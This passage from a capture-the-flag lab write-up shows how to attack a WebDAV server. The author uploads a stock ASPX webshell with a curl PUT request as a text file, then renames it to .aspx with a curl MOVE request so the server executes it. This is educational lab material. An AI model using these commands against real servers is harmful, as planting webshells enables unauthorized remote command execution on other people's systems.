 Just like `davtest` said, I can’t put aspx files directly.

#### Tools

There’s a tool called `cadaver` that provides command-line WebDAV interactions with a slightly simpler syntax than curl. If I are going to be attacking a WebDAV server, I’ll probably use that just for the shorter commands. That said, I’m going to use `curl` in this post to show exactly what is happening when I issue these HTTP requests. If you are interested in `cadaver`, check out the [man page](https://linux.die.net/man/1/cadaver).

## Shell as network service

### Upload Webshell

The first thing I’ll need to do is upload my webshell. Kali has a simple one at `/usr/share/webshells/aspx/cmdasp.aspx`. I’ll grab a copy:

```

root@kali# cp /usr/share/webshells/aspx/cmdasp.aspx .

```

Now I’ll upload that to target as a txt using curl and the http put method:

```

root@kali# curl -X PUT http://10.10.10.15/0xdf.txt -d @cmdasp.aspx 

```

If I look at the page now, I’ll see the code, but it’s not executed, as the server is treating it as text:

![1551906569357](https://0xdfimages.gitlab.io/img/1551906569357.png)

### Move Webshell

Now I’ll use the next webdav command, MOVE. Again, I can do this with curl:
- `-X MOVE` - use the MOVE method
- `-H 'Destination:http://10.10.10.15/0xdf.aspx'` - defines where to move to
- `http://10.10.10.15/0xdf.txt` - the file to move

```

root@kali# curl -X MOVE -H 'Destination:http://10.10.10.15/0xdf.aspx' http://10.10.10.15/0xdf.txt

```

And it works:

![1551906682814](https://0xdfimages.gitlab.io/img/1551906682814.png)

![1551910243368](https://0xdfimages.gitlab.io/img/1551910243368.png)

